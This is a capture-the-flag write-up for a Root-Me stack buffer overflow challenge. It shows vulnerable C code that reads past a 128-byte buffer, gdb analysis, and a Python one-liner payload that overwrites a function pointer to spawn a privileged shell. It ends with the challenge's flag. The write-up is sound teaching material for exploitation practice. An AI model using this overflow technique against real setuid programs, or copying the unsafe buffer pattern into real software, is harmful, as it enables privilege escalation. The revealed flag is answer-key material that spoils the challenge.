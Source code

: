 # ELF x86 - Stack buffer overflow basic 2
- Point: 10pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en), 10 April 2015
- Level: Very Easy
- Statement
- Environment configuration <br>
```
  PIE	    Position Independent Executable	 ✘ 
  RelRO	    Read Only relocations	         ✘ 
  NX	    Non-Executable Stack	         ✔ 
  Heap exec Non-Executable Heap	                 ✔ 
  ASLR	    Address Space Layout Randomization	 ✘ 
  SF	    Source Fortification	         ✘ 
  SSP	    Stack-Smashing Protection            ✘
  SRC	    Source code access	                 ✔ 
```
## Write-up:
Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
## Write-up:
- As a normal code flow, the program will point to the address of **sup()** function and execute it. So we need to override the "ret addr" and point it to **shell()** function. - Using gdb and disassembler the **main()** function:<br>
![image](https://user-images.githubusercontent.com/48288606/141277701-1e1e1c08-997a-47ba-be6a-1129505aee79.png)
 
- Poke around and find the **shell()**'s address at **0x08048516**:<br>
![image](https://user-images.githubusercontent.com/48288606/141276299-ec52a57d-f7cb-48de-a655-2862d97402c3.png)
- Let's try filling with 128 arbitrary bytes and the address of **sup()** function at **0x08048559**
```
app-systeme-ch15@challenge02:~$ python -c "print('a'*128+'\x59\x85\x04\x08')" | ./ch15
Hey dude ! Waaaaazzaaaaaaaa ?!
Segmentation fault
```
We can access to that address and carry out the code
### Solution:
- First we will fill the **buf**'s value with 128 "A" characters, and then push the address of the **shell()** function. <br>
Payload: `(python -c "print('a'*128+'\x16\x85\x04\x08')";cat) | ./ch15` <br>
Password: B33r1sSoG0oD4y0urBr4iN

